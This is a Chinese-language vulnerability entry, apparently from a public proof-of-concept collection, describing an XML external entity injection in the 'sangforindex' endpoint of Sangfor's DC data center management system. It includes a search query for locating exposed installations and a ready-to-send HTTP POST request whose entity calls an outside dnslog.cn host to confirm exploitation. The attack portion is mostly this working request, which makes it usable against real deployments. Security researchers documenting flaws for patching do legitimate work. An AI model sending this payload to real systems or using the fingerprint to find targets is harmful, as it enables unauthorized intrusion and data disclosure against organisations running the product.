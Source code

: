 # 深信服 DC数据中心管理系统 sangforindex XML实体注入漏洞

## 漏洞描述

深信服 DC数据中心管理系统 sangforindex 接口存在XML实体注入漏洞，攻击者可以发送特定的请求包造成XML实体注入

## 漏洞影响

<a-checkbox checked>深信服 DC数据中心管理系统 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"SANGFOR 数据中心"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1692061412640-89b0f89d-f4eb-4cec-8df7-42a0c36fe233.png)

验证POC

```plain
POST /src/sangforindex HTTP/1.1
Host: 
Content-Type: text/xml

<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE root [
    <!ENTITY rootas SYSTEM "http://xgsg1k.dnslog.cn">
]>
<xxx>
&rootas;
</xxx>
```

![img](../../../.vuepress/public/img/1692061553187-836f8383-a0e4-419d-b6eb-a001f62a92d5.png)